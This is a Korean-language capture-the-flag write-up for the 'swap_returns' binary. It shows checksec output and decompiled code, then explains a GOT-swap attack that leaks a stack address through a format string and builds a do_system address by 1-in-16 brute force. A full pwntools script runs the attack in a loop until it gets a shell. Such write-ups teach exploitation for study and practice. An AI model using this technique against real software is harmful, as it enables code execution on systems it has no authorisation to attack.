 # 문제
***

swap_returns 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
swap_returns: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=777bd9bf561cb7af8c22b442f1c146e85f7395c4, not stripped
```

바이너리 코드

__main()__ 
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  ...
  
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(*(_QWORD *)&argc, argv);
      v3 = read_int();
      if ( v3 != 2 )
        break;
      v6 = *v4;
      *v4 = *v5;
      *v5 = v6;
      v6 = 0LL;
    }
    if ( v3 == 3 )
    {
      printf("Bye. ");
      _exit(0);
    }
    if ( v3 == 1 )
    {
      puts("1st address: ");
      __isoc99_fscanf(stdin, "%lu", &v4);
      puts("2nd address: ");
      argv = (const char **)"%lu";
      *(_QWORD *)&argc = stdin;
      __isoc99_fscanf(stdin, "%lu", &v5);
    }
    else
    {
      printf("Invalid choice. ");
    }
  }
}
```

__read_int()__
```
__int64 read_int()
{
  __int16 buf; // [rsp+6h] [rbp-Ah]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  read(0, &buf, 2uLL);
  return (unsigned int)atoi((const char *)&buf);
}
```

기능은 매우 간단하다. scanf를 통해서 입력한 두 개의 주소에 들어 있는 값을 서로 xchg 해준다. <br/><br/>
이를 통해서 got overwrite를 할 수 있다. 하지만 got를 내가 넣어준 입력값으로 변경할 수는 없다. (user input으로 overwrite가 불가능하다.) <br/><br/>

여기서 우리가 입력으로 넣으줄 수 있는 곳은 (우리가 유일하게 control 할 수 있는 부분) __read_int()__ 함수의 2바이트를 read하는 부분밖에 없다.  

## exploit 과정
1. atoi_got와 printf_got 값을 서로 바꾸면 buf에 %p를 통해서 rsi에 들어 있는 buf의 주소를 leak할 수 있다.  
2. 다음 __read_int()__ 함수 호출 때 buf에 2바이트 값을 넣어주면 다시 atoi_got와 printf_got 값을 서로 바꿀 수 있다. (printf의 ret값은 출력한 문자열 개수)
3. 스택에 있는 값들을 잘 조합해서 메모리의 특정 영역에 system 함수의 주소를 만든다. 
    - 앞에서 호출된 printf가 내부적으로 vfprintf를 호출하기 때문에 stack에 vfprintf 함수 관련 주소가 존재한다. 주어진 libc.so.6에서 vfprintf와 system 함수의 offset 차이는 0x81f0이다. 
    -  system 함수의 하위 12bit는 특정 값으로 고정되어 있다. 
    -  system 함수의 13 - 16 bit 값이 8을 넘으면 vfprintf 함수와 system 함수의 17 - 20bit 값이 다르다. (1차이 발생)
    - 따라서 system 함수의 주소를 맞출 확률은 (13 - 16비트 값이 8보다 작을 확률) X (0 -7 사이의 숫자 중 정답을 맞출 확률)이 된다. 즉 1/16이다. 
4. 스택에 있는 값을 조합해서 만든 system 함수의 주소를 atoi의 got 값과 바꾼 후 read 함수에 "sh"를 인자로 준다. system 함수의 주소를 맞추면 쉘을 딸 수 있다.

<br/><br/>
=> 여기에서는 system 함수 내부에서 호출하는 do_system 함수의 주소가 더 만들기 쉬워서 do_system 함수를 이용했다.(do_system과 system 함수의 offset 차이는 0x580이다.)<br/><br/>

c.f) 만약 printf가 한 번도 호출되지 않았을 때 1번을 수행하고 atoi를 호출하면 printf 호출 과정에 의해서 printf_got에 저장되어 있는 atoi_got 값을 printf의 주소값으로 덮어쓰게 된다. 따라서 다시 swap하고 atoi를 호출해도 printf가 호출된다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def sel_num(num):
	p.recvuntil(": \n")
	p.send(num)

file_path="/home/sungyun/round3/swap/swap_returns"


while(1):
	p=process(file_path, env={"LD_PRELOAD" : "/home/sungyun/round3/swap/libc.so.6"})

	printf_got=0x601038
	atoi_got=0x601050
	setvbuf_got=0x601048
	bss_sec=0x6014c0

	sel_num("go")

	sel_num("1")

	p.recvuntil(": \n")
	p.sendline(str(printf_got))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")
	sel_num("%p")
	stack=int(p.recv(14),16)
	
	sel_num("%s")
	print hex(stack)
	
	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(stack-0x630))
	p.recvuntil(": \n")
	p.sendline(str(bss_sec))

	sel_num("77")

	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-4))
	p.recvuntil(": \n")
	p.sendline(str(stack-0x508-5)) 
	
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec-5))
	p.recvuntil(": \n")
	#p.sendline(str(stack-0x681)) #0x30
	p.sendline(str(stack-0x95))   #0x32
	sel_num("2")

	sel_num("1")
	p.recvuntil(": \n")
	p.sendline(str(bss_sec+2))
	p.recvuntil(": \n")
	p.sendline(str(atoi_got))

	sel_num("2")

	sel_num("sh")
	p.sendline("pwd")

	try:
		msg=p.recv()
		if "2. Swap" in msg:
			continue
		break
	except:
		p.close()

p.interactive()
```

